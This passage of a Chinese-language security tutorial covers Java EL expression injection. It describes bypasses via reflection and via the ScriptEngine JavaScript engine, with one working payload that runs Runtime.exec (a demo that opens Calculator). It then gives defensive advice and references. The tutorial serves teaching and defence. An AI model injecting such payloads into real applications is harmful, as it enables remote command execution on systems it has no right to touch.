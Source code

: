 # 绕过方法
## 利用反射机制
同`JUEL`中反射调用`Runtime`类方法实现命令执行.

## 利用 ScriptEngine 调用 JS 引擎绕过
这个和`SpEL`注入中的手法是一样的.
```java
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator')")}
```

# 防御方法
 - 尽量不使用外部输入的内容作为`EL`表达式内容;
 - 使用外部输入的内容作为`EL`表达式内容时, 需严格过滤`EL`表达式注入漏洞的`Payload`关键字;
 - 排查`Java`程序中`JUEL`相关代码, 搜索如下关键类方法
   - javax.el.ExpressionFactory.createValueExpression()
   - javax.el.ValueExpression.getValue()

# 参考
 - [EL表达式](https://baike.baidu.com/item/EL%E8%A1%A8%E8%BE%BE%E5%BC%8F/1190845)
 - [浅析EL表达式注入漏洞](https://www.mi1k7ea.com/2020/04/26/%E6%B5%85%E6%9E%90EL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/)